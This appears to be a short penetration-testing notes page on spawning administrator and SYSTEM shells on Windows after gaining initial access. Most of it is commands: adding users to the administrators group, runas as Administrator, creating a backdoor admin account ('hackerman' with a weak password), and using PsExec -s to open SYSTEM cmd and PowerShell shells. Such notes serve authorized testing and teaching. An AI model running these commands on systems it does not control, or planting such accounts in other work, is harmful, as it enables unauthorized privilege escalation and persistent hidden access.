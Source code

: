 # Spawning Administrator/SYSTEM Shells in Windows

This document covers techniques for spawning administrator and SYSTEM-level shells after gaining initial access to a Windows system.

## Elevating Regular User to Administrator

### Adding User to Administrators Group

If you have administrator credentials or compromised an admin-level account, you can add a regular user to the administrators group:

```cmd
net localgroup administrators <username> /add
```

After this, you can use that user account to open an elevated command prompt or access privileged resources.

### Using RunAs to Execute Commands as Administrator

If you have administrator credentials but are logged in as a regular user:

```cmd
runas /user:Administrator cmd.exe
```

### Creating a New Administrator User

```cmd
net user hackerman Password123 /add
net localgroup administrators hackerman /add
```

## Escalating from Administrator to SYSTEM

### Using PSExec

PSExec is a powerful tool from Microsoft's Sysinternals suite that allows you to execute processes on remote systems with SYSTEM privileges.

#### PSExec Local Usage for SYSTEM Shell

```cmd
# Download from Microsoft's website
# https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

# Execute cmd.exe as SYSTEM
PsExec64.exe -i -s cmd.exe

# Execute PowerShell as SYSTEM
PsExec64.exe -i -s powershell.exe
```
